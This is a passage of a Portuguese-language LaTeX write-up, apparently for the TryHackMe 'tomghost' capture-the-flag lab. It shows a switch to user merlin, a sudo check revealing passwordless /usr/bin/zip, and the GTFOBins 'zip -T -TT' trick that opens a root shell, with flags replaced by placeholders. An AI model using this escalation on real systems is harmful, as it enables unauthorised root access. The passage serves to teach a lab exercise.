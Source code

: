 \documentclass[12pt]{article}
\begin{document}
O conteúdo decifrado revela as credenciais do usuário \texttt{merlin}. Trocamos de usuário e capturamos a primeira flag:

\begin{lstlisting}[caption={Acesso como merlin e captura da flag de usuário}, label={lst:sumerlin}]
skyfuck@tomghost:~$ su merlin
merlin@tomghost:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin)
merlin@tomghost:~$ cat user.txt
THM{<FLAG_DE_USUARIO>}
\end{lstlisting}

\section{Escalada de Privilégios}

Como \texttt{merlin}, verificamos quais comandos o usuário pode executar com \texttt{sudo}:

\begin{lstlisting}[caption={Privilégios sudo de merlin}, label={lst:sudol}]
merlin@tomghost:~$ sudo -l -l
User merlin may run the following commands on tomghost:
    (root : root) NOPASSWD: /usr/bin/zip
\end{lstlisting}

O usuário pode executar \texttt{/usr/bin/zip} como \texttt{root} sem senha. Consultando o \textit{GTFOBins}, vemos que o \texttt{zip} permite executar comandos arbitrários por meio da opção \texttt{-T} (test) combinada com \texttt{-TT} (unzip command), o que, rodando como \texttt{root}, resulta em um shell privilegiado:

\begin{lstlisting}[caption={Abuso do zip via sudo (GTFOBins)}, label={lst:zip}]
merlin@tomghost:~$ TF=$(mktemp -u)
merlin@tomghost:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
# um shell e aberto como root
\end{lstlisting}

Com o shell de \texttt{root}, confirmamos o acesso e capturamos a flag final:

\begin{lstlisting}[caption={Acesso final como root}, label={lst:root}]
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{<FLAG_DE_ROOT>}
\end{lstlisting}
\end{document}
